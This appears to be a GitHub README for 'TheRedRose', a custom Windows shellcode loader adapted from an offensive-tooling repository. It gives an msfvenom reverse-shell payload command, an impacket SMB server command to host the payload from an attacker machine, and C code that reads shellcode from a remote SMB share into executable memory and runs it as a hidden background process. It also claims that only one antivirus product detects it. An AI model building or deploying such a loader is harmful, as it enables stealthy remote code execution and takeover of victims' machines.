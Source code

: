 # TheRedRose
A custom verion of shellcode loader Lsecqt based on SMB
Please see original version https://github.com/lsecqt/OffensiveCpp/blob/main/Techniques/SMB_Staging.c

# Easy compile
You can edit the rc file for edit it as u whis
```
./build.sh                                                   
[INFO] Compiling resources.rc into resources.o...
[SUCCESS] Compilation of resources.rc completed successfully.
[INFO] Compiling the main program with resources.o...
[INFO] Compilation of the main program completed successfully.
[SUCCESS] Compilation finished. The executable has been created as TheRedRose.exe
```
or you can simple compile the source code
```
x86_64-w64-mingw32-gcc -o background_app.exe your_code.c -mwindows
```

# How it work?
Two important variable in the code TheRedRose.c, the size of payload and the ip of smbserver

### Size of payload
I used Havoc C2 in my code but thats an example for msfvenom
```
msfvenom -p windows/x64/shell_reverse_tcp lhost=wlan0 lport=9001 -f raw > 9001.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes

unsigned char buf[460] = "";
```
### Change path of payload
In my example:
192.168.14.188 is the ip of attacker maching in my lab
code.bin is the payload name
```
readBin("\\\\192.168.140.188\\share\\code.bin");
```
For start the smbserver
(is important that in the same folder we have our payload)
```
impacket-smbserver share . -ts -debug -smb2support
```
# Whats change from the original code
This is a simple custom shellcode loader, so its not so different
1) This application create a background service so we dont need to take terminal open on the victim machine
2) Is customizabile using .rc file
3) Semplification of the code

# Detection
This is pretty hard to detect, but thats depends a lot by payload used for now only norton 360 was able to detect it could be a malware

# Code explanation
(very quick, u can see the original video if lsecqt for more info https://www.youtube.com/watch?v=w_NKshRQ3b8)
## Function readBin
```
void readBin(const char* fileName) {
    HANDLE hFile = CreateFileA(fileName, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        return;
    }

    DWORD bytesRead;
    BOOL result = ReadFile(hFile, buf, sizeof(buf), &bytesRead, NULL);
    if (!result) {
        CloseHandle(hFile);
        return;
    }

    CloseHandle(hFile);
}

```
* The readBin function opens a binary file for reading.
* CreateFileA opens the file specified by fileName for reading. If the file cannot be opened, the function exits.
* ReadFile reads the content of the file into the buffer buf. If the read operation fails, the file is closed and the function exits.
* Finally, the file is closed.

## Function WinMain
```
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
    LPVOID pAddr = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    readBin("\\\\192.168.140.188\\share\\code.bin");
    memcpy(pAddr, buf, sizeof(buf));
    ((void(*)())pAddr)();

    return 0;
}
```
* WinMain is the main entry point for a Windows application.
* VirtualAlloc allocates executable memory of the same size as the buffer buf.
* readBin("\\\\192.168.140.188\\share\\code.bin"); reads the binary file from a network location and fills the buffer buf with the file's data.
* memcpy(pAddr, buf, sizeof(buf)); copies the data from the buffer buf to the allocated memory pAddr.
* ((void(*)())pAddr)(); executes the binary code that was loaded into pAddr.
* Finally, the program terminates by returning 0.


Thanks Lsecqt for the main code 
https://github.com/lsecqt
